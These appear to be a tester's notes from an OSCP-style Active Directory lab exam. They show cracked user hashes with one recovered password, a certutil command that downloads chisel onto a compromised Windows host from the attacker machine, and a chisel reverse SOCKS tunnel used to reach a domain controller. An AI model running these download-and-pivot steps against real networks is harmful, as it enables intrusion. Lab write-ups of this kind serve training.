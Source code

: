 ```shell
	credman :	
	cloudap :	

```

- going to crack hashes
```
hashes to be cracked:

Bob.Martin: 2a12e2af96237b2e7277f1b321ceb7b7
Alice.Walters: 3e24dcead23468ce597d6883c576f657 : 1q2w3e4r5t
```

![[hashes to be cracked.png]]


![[broken hashes.png]]

Checking to see if DC is reachable from MS01
![[pinged to ensure can touch machines.png]]


- have broken hash, going to setup chisel socks5 proxy

```shell
# setting up on my linux machine as server
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# ./chisel_1.8.1_linux_amd64 server -p 8000 --reverse

#transferring windows chisel over

certutil.exe -urlcache -split -f "http://192.168.49.118:1337/chisel_1.8.1_windows_amd64.exe"
# on windows box 2 make chisel client and remote forward to socks proxy to forward through socks proxy to allow connection to domain controller

12:22 PM 2/7/2023
	chisel_1.8.1_windows_amd64 client 192.168.49.118:8000 R:1080:socks
```

- modified proxy chains config
![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/proxchains.conf.png]]

- setup server and client for proxychains on my box

![[proxychains client and server.png]]

using chisel to hit the client @ 192.168.49.110 on port 8000 using the Reverse socks proxy on port 1080
- can only touch the .100 box from here
```shell
C:\Windows\Temp>ping -n 5 172.16.118.100
ping -n 5 172.16.118.100

Pinging 172.16.118.100 with 32 bytes of data:
Reply from 172.16.118.100: bytes=32 time<1ms TTL=128
Reply from 172.16.118.100: bytes=32 time<1ms TTL=128
Reply from 172.16.118.100: bytes=32 time<1ms TTL=128
Reply from 172.16.118.100: bytes=32 time=1ms TTL=128
Reply from 172.16.118.100: bytes=32 time<1ms TTL=128

Ping statistics for 172.16.118.100:
    Packets: Sent = 5, Received = 5, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms

C:\Windows\Temp>ping -n 172.16.118.102
```